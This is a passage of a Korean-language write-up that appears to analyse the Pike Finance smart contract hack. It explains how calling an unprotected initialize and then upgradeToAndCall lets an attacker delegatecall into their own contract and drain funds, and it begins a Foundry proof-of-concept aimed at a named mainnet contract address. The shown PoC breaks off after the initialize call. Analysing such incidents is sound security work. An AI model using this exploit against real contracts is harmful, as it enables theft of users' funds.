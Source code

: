 ```solidity
            if (!(0 - MEM[v6])) {
                require((address(varg2)).code.size, Error('Address: call to non-contract'));
            }
            return ;
        }
    }
}
```
이 함수에선 newImplementation의 주소로 delegatecall을 수행합니다 delegatecall로 받아오는 정보는 upgradeToAndCall의 data를 사용합니다.즉 _isActive 변수에 공격자의 정보가 담겨있음으로 upgradeToAndCall을 수행을 할 수 있게되고 delegatecall로 호출을 진행하기에 피해자 컨트랙트를 복사해 와서 공격자 컨트랙트에서 실행하는것과 같은 원리가 되므로 피해자 컨트랙트의 자금을 모두 탈취할 수 있게되는 취약점입니다.<br>
최종적으로 정리를 하게된다면 <br> 
공격자 컨트랙트가 Initialize 함수를 호출합니다.<br>
newImplementation를 공격자 컨트랙트 주소로 설정하고 data는 공격자 함수에 abi값으로 설정하고 upgradeT oAndCall 함수를 호출합니다
Event로 Upgraded가 성공적으로 완료되었다는 메시지를 전달받습니다.<br>
성공적으로 공격자가 원하는 함수가 피해자(대상) 컨트랙트에서 호출되고 원하는 값을 얻게
됩니다.<br>
![exploit](/assets/img/pikeFinance/img.png)


---

## PoC
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Test.sol";

interface IPikeFinance {
    function initialize(address, address, address, address, uint16, uint16) external;
    function upgradeToAndCall(address, bytes memory) external;
}

contract Poc is Test {
    uint256 private constant FORK_BLOCK = 19771058;
    address private constant TARGET_CONTRACT = 0xFC7599cfFea9De127a9f9C748CCb451a34d2F063;

    function setUp() public {
        vm.deal(address(this), 0);
        vm.createSelectFork(vm.envString("MAINNET_RPC_URL"), FORK_BLOCK);
    }

    function testExploit() public {
        address attacker = address(this);
        address wNative = address(this);
        address dexHelper = address(this);
        address token = address(this);

        IPikeFinance(TARGET_CONTRACT).initialize(attacker, wNative, dexHelper, token, 20, 20);
```